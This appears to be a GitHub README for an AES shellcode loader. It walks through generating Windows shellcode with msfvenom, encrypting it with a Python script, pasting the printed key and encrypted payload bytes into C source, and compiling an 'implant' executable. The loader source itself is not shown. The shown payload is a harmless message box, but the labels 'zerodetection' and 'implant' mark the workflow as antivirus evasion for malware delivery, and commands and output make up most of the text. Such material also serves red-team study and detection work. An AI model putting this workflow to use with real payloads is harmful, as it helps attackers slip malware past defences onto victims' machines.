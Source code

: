 # SHELLCODE_LOADER_AES


## Create Shellcode

Create a simple Messagebox Shellcode
```
msfvenom -p windows/x64/messagebox TEXT=zerodetection TITLE=zerodetection -f raw -o messagebox.raw
```


## Encrypt the Shellcode with AES

Check which Python version is on your system
```
python3 -V
```

Create a new virtual environment
```
virtualenv --python python3.8 venv
```

Install pycryptodome
```
pip install pycryptodome
```

Now you can encrypt your payload
```
python3 aesencrypt.py messagebox.raw
```


```
└─$ python3 aesencrypt.py messagebox.raw
char key[] = { 0x96, 0x45, 0x61, 0xe8, 0x93, 0x87, 0x37, 0xf4, 0xd6, 0x07, 0xa2, 0xf2, 0xc1, 0x24, 0x79, 0x67 };
unsigned char payload[] = { 0x5c, 0x3a, 0x41, 0x5c, 0x7f, 0x16, 0xa3, 0xec, 0xa0, 0x88, 0xf6, 0x32, 0x3c, 0x35, 0x7a, 0xb1, 0x31, 0x03, 0x0b, 0x2d, 0x5a, 0xf7, 0xd9, 0x97, 0x6a, 0xe8, 0x3c, 0xc5, 0x57, 0x47, 0xaa, 0x5b, 0x32, 0x3f, 0x23, 0xad, 0x54, 0x70, 0x46, 0x99, 0xb7, 0x98, 0x89, 0xd9, 0xfe, 0x3b, 0xd9, 0x79, 0xc5, 0xa5, 0xd3, 0x52, 0x06, 0x14, 0x49, 0x2d, 0x1e, 0x45, 0xe8, 0x0f, 0x9e, 0x16, 0xeb, 0x08, 0xab, 0x49, 0x88, 0x3a, 0xa1, 0x5c, 0x76, 0x30, 0x95, 0x86, 0x38, 0x95, 0xd4, 0x6a, 0x5f, 0x87, 0xde, 0xa6, 0x5e, 0x8c, 0xe8, 0xd0, 0x25, 0x4a, 0x0b, 0xd7, 0x17, 0x3e, 0xa5, 0x48, 0x11, 0xe2, 0x5d, 0x08, 0x1c, 0x9c, 0x51, 0x47, 0xec, 0x19, 0x68, 0x43, 0x4f, 0x89, 0x21, 0x12, 0x04, 0x85, 0xca, 0xfe, 0x1e, 0x50, 0x3d, 0xf0, 0x61, 0xb6, 0xf5, 0x98, 0xbf, 0x0e, 0xf1, 0x62, 0x93, 0x55, 0xc3, 0x13, 0x98, 0x4f, 0xb0, 0x6d, 0x00, 0x25, 0x3e, 0x99, 0x9f, 0x89, 0x1f, 0xdb, 0x3c, 0xe6, 0xfc, 0xd7, 0xeb, 0x56, 0xb7, 0x18, 0x92, 0x55, 0x5e, 0x37, 0xf1, 0x79, 0x42, 0x31, 0xcf, 0xd1, 0xae, 0x9b, 0xa5, 0x8d, 0x1e, 0xfc, 0xea, 0xb2, 0x7c, 0x15, 0x8e, 0x9e, 0x1f, 0x0a, 0x49, 0x3c, 0x9f, 0x55, 0x4c, 0x45, 0x68, 0x56, 0xe4, 0x07, 0x0c, 0x59, 0x11, 0x65, 0x84, 0xe0, 0xe1, 0x4f, 0xc5, 0xf6, 0x4e, 0x37, 0x0e, 0xe1, 0xad, 0x78, 0x84, 0x3d, 0xec, 0xd5, 0xb1, 0x31, 0xc2, 0x69, 0x96, 0x29, 0x05, 0xe1, 0xbd, 0xe4, 0x17, 0x2d, 0x12, 0xb2, 0xb2, 0xd4, 0x99, 0x25, 0xd4, 0xec, 0x6b, 0x07, 0x80, 0x5e, 0xa1, 0x5a, 0xbd, 0xcd, 0xf9, 0x49, 0x62, 0x85, 0xfa, 0x13, 0xf4, 0xba, 0xe1, 0x50, 0x4b, 0x86, 0xb0, 0xc7, 0x7f, 0x01, 0x84, 0x50, 0x3b, 0xf1, 0xaa, 0x4f, 0xbf, 0x04, 0x74, 0x24, 0xb7, 0x7e, 0x36, 0xd6, 0x00, 0x7f, 0xc0, 0x9d, 0x74, 0x2d, 0xdc, 0x54, 0x08, 0x5b, 0x95, 0x98, 0x2f, 0xa0, 0xeb, 0xf4, 0x53, 0xf9, 0xe5, 0x11, 0x6b, 0x93, 0x38, 0xe5, 0x2b, 0x77, 0x8c, 0x55, 0x4f, 0x83, 0x3b, 0x6d, 0xc4, 0x18, 0xed, 0x99, 0x55, 0x70, 0x92, 0xc1, 0x46, 0x2c, 0x6c, 0x9f, 0x50, 0x0c, 0x8c, 0x87, 0xda, 0xc9, 0xc8, 0xb0, 0x82, 0xa6, 0x5e, 0x2a, 0x3a, 0x0d, 0xcb, 0x75, 0x74, 0xa9, 0xa3, 0xfb, 0x8a, 0x4c, 0x62, 0xb5, 0x6e, 0xb6, 0x4b, 0x1c, 0xab, 0xb8 };
```

## Copy the key and payload, compile the Shellcode Loader

Copy key and payload into the source-code

Compile the source-code
```
x86_64-w64-mingw32-gcc BasicImplantAES_01.c -o BasicImplantAES.exe
```
